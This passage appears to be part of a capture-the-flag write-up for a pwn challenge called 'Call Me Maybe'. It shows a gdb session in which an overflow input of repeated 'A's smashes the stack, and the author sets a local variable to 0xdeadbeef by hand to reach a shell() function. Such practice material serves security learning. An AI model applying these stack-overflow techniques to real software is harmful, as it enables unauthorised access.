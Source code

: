 I tried running the program again, but manually setting this memory location. It looks like its the correct one, since it calls a new system process
```
_______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                        Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�...

Breakpoint 1, 0x0000000000400700 in shell ()
(gdb) ni
0x0000000000400707 in shell ()
(gdb) ni
0x0000000000400717 in shell ()
(gdb) ni
0x000000000040071e in shell ()
(gdb) ni
Unauthorized.
0x0000000000400723 in shell ()
(gdb) ni
0x0000000000400724 in shell ()
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /run/media/hacker/Windows/Users/zunmu/Documents/Stuff/Github/Solutions/Cyber Security/Capture the Flag Competitions/2021/Cyberthon 2021/Self-Directed Online Training/Pwn/Call Me Maybe/Given/callmemaybe < ../inputfile.txt
_______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                        Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�...

Breakpoint 1, 0x0000000000400700 in shell ()
(gdb) print $rbp-$rsp
$2 = 32
(gdb) x/8wx $rsp
0x7fffffffe488:	0x41414141	0x41414141	0x41414141	0xf7f9b4d0
0x7fffffffe498:	0x41414141	0x41414141	0x6e69622f	0x0068732f
(gdb) x/8wx $rbp
0x7fffffffe4a8:	0xdeadbeef	0x00000000	0x41414141	0x41414141
0x7fffffffe4b8:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) x/wx $rbp-0x14
0x7fffffffe494:	0xf7f9b4d0
(gdb) set {int}($rbp-0x14)
warning: Expression is not an assignment (and might have no effect)
(gdb) set {int}($rbp-0x14)=0xdeadbeef
(gdb) x/wx $rbp-0x14
0x7fffffffe494:	0xdeadbeef
(gdb) continue
```